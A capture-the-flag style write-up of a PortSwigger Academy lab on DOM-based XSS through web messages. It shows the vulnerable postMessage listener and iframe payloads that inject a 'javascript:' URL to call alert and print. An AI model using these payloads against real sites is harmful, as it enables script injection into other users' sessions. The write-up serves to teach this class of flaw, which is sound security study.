 
# 19 - DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. 

To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

---------------------------------------------

References: 

- https://portswigger.net/web-security/dom-based/controlling-the-web-message-source

- https://portswigger.net/web-security/cross-site-scripting/dom-based

- https://stackoverflow.com/questions/24078332/is-it-secure-to-use-window-location-href-directly-without-validation

---------------------------------------------

Generated link: https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/


Vulnerable code:



![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/1.png)

```
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

If the payload contains “http:” or “https:”, it will redirect to that page.


Our payload in the exploit server:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('https://as.com','*')" style="width:100%;height:100%">
```

When we click “View”, it redirects to as.com:



![Pobre Luis Enrique](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/2.png)

We can execute Javascript code with javascript:alert(1). As there are already nested quotes and double quotes we can use the character “`” to create an alert message with the previous url, so the payload wil still have “https:”:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:alert`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/3.png)

If we change the payload to print the page:

```
<iframe src="https://0a0300fb03ec541d83b0e1af005a0096.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print`https://as.com`','*')" style="width:100%;height:100%">
```



![img](images/DOM%20XSS%20using%20web%20messages%20and%20a%20JavaScript%20URL/4.png)